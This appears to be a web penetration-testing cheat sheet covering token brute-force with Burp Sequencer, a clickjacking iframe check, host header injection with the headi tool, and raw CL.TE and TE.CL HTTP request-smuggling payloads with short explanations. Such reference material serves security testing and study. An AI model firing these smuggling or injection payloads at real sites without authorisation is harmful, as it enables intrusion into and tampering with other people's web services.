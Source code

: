 ### Analyze the token and perform brute-force

1-  
`burp intruder -> sequencer -> Token Location Within Response -> Start live capture -> save tokens`

2-  
`cat tokens.txt | uniq -c | nl`  

## ClickJacking
```
<iframe src="https://example.com">
```
-> Scan your site now - check for headers  
https://securityheaders.com/

## Host Header Injection
```
headi -url http://site.com/admin.php
```
https://github.com/mlcsec/headi

## HTTP Request Smuggling
### CL.TE - Content-Length X Transfer-Encoding
CL.TE: The frontend uses the Content-Length header and the backend server uses the Transfer-Encoding header  
e.g.  
```
POST / HTTP/1.1
Host: site.com
Content-Length: 11
Transfer-Encoding: chunked
	
0

ATTACK
```
1. Front-End use Content-Length of 11;  
2. back-end divides into 2 blocks to process.  
First block: 0  
Second block: Attack that will be processed in another request  
	
### TE.CL - Transfer-Encoding X Content-Length
TE.CL: The frontend uses the Transfer-Encoding header and the backend server uses the Content-Length header  
e.g.  
```
POST / HTTP/1.1
Host: site.com
Content-Length: 3
Transfer-Encoding: chunked

6
ATTACK
0
```
1. Front-End use Transfer-Encoding of 6 bytes and processes the request in two blocks:  
First block: Attack  
second block 0  
And that request is forwarded to the backend server.  
2. Back-End use and process Content-Length header of 3 bytes, and the remainder starting with ATTACK are not processed and the backend server will handle it on the next request.  
	
